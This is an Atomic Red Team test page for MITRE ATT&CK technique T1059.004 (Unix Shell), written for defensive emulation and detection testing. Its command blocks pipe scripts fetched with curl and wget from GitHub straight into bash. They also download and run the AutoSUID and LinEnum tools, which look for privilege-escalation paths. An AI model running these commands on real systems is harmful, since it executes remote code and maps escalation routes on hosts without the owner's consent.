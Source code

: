 # T1059.004 - Unix Shell
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1059/004)
<blockquote>Adversaries may abuse Unix shell commands and scripts for execution. Unix shells are the primary command prompt on Linux and macOS systems, though many variations of the Unix shell exist (e.g. sh, bash, zsh, etc.) depending on the specific OS or distribution.(Citation: DieNet Bash)(Citation: Apple ZShell) Unix shells can control every aspect of a system, with certain commands requiring elevated privileges.

Unix shells also support scripts that enable sequential execution of commands as well as other typical programming operations such as conditionals and loops. Common uses of shell scripts include long or repetitive tasks, or the need to run the same set of commands on multiple systems.

Adversaries may abuse Unix shells to execute various commands or payloads. Interactive shells may be accessed through command and control channels or during lateral movement such as with [SSH](https://attack.mitre.org/techniques/T1021/004). Adversaries may also leverage shell scripts to deliver and execute multiple commands on victims or as part of payloads used for persistence.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create and Execute Bash Shell Script](#atomic-test-1---create-and-execute-bash-shell-script)

- [Atomic Test #2 - Command-Line Interface](#atomic-test-2---command-line-interface)

- [Atomic Test #3 - Harvest SUID executable files](#atomic-test-3---harvest-suid-executable-files)

- [Atomic Test #4 - LinEnum tool execution](#atomic-test-4---linenum-tool-execution)


<br/>

## Atomic Test #1 - Create and Execute Bash Shell Script
Creates and executes a simple bash script.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** 7e7ac3ed-f795-4fa5-b711-09d6fbe9b873





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| script_path | Script path | Path | /tmp/art.sh|


#### Attack Commands: Run with `sh`! 


```sh
sh -c "echo 'echo Hello from the Atomic Red Team' > #{script_path}"
sh -c "echo 'ping -c 4 8.8.8.8' >> #{script_path}"
chmod +x #{script_path}
sh #{script_path}
```

#### Cleanup Commands:
```sh
rm #{script_path}
```





<br/>
<br/>

## Atomic Test #2 - Command-Line Interface
Using Curl to download and pipe a payload to Bash. NOTE: Curl-ing to Bash is generally a bad idea if you don't control the server.

Upon successful execution, sh will download via curl and wget the specified payload (echo-art-fish.sh) and set a marker file in `/tmp/art-fish.txt`.

**Supported Platforms:** macOS, Linux


**auto_generated_guid:** d0c88567-803d-4dca-99b4-7ce65e7b257c






#### Attack Commands: Run with `sh`! 


```sh
curl -sS https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
wget --quiet -O - https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1059.004/src/echo-art-fish.sh | bash
```

#### Cleanup Commands:
```sh
rm /tmp/art-fish.txt
```





<br/>
<br/>

## Atomic Test #3 - Harvest SUID executable files
AutoSUID application is the Open-Source project, the main idea of which is to automate harvesting the SUID executable files and to find a way for further escalating the privileges.

**Supported Platforms:** Linux


**auto_generated_guid:** 46274fc6-08a7-4956-861b-24cbbaa0503c





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| autosuid | Path to the autosuid shell script | Path | PathToAtomicsFolder/T1059.004/src/AutoSUID.sh|
| autosuid_url | Path to download autosuid shell script | Url | https://raw.githubusercontent.com/IvanGlinkin/AutoSUID/main/AutoSUID.sh|


#### Attack Commands: Run with `sh`! 


```sh
chmod +x #{autosuid}
bash #{autosuid}
```




#### Dependencies:  Run with `bash`!
##### Description: AutoSUID must exist on disk at specified location (#{autosuid})
##### Check Prereq Commands:
```bash
if [ -f #{autosuid} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
curl #{autosuid_url} --output #{autosuid}
```




<br/>
<br/>

## Atomic Test #4 - LinEnum tool execution
LinEnum is a bash script that performs discovery commands for accounts,processes, kernel version, applications, services, and uses the information from these commands to present operator with ways of escalating privileges or further exploitation of targeted host.

**Supported Platforms:** Linux


**auto_generated_guid:** a2b35a63-9df1-4806-9a4d-5fe0500845f2





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| linenum | Path to the LinEnum shell script | Path | PathToAtomicsFolder/T1059.004/src/LinEnum.sh|
| linenum_url | Path to download LinEnum shell script | Url | https://raw.githubusercontent.com/rebootuser/LinEnum/c47f9b226d3ce2848629f25fe142c1b2986bc427/LinEnum.sh|


#### Attack Commands: Run with `sh`! 


```sh
chmod +x #{linenum}
bash #{linenum}
```




#### Dependencies:  Run with `bash`!
##### Description: LinnEnum must exist on disk at specified location (#{linenum})
##### Check Prereq Commands:
```bash
if [ -f #{linenum} ]; then exit 0; else exit 1; fi;
```
##### Get Prereq Commands:
```bash
curl #{linenum_url} --output #{linenum}
```




<br/>
